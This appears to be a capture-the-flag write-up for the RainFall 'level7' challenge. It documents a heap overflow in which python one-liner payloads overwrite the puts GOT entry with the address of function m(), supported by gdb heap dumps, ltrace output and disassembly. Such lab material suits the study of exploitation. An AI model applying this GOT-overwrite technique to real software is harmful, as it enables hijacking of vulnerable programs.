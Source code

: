 Heap exploit


```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor srcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



```
"-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
```
  strcpy(0x0804a018, "AAAA")
  strcpy(0x0804a038, "BBBB")
  
  cpy whatever is in av1 into 018
  cpy whatever is in av2 into 038
  
  what we need is smthing like:
  
    strcpy(addr_of_puts, addr_of_m)
  
  address of puts `0x8049928` and address of m() `0x080484f4`
  
  so we need to slide addr of puts to overide the aadr malloced for arv2
  
```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[av2_dest]
0x804a030:	0x00000000	0x00000011	[   av2  ]	0x00000000
```
we want to achieve smthg like
```
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[  puts  ]
0x804a030:	0x00000000	0x00000011	[     m  ]	0x00000000
```
to reach `puts` frm `av1` we need  `4*5 = 20`

payload:

  `( python -c 'print A*20 + puts' ) ( python -c 'print m' )`
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  ```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
  
  similar concept
  liveoverflow https://youtu.be/TfJrU95q1J4?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
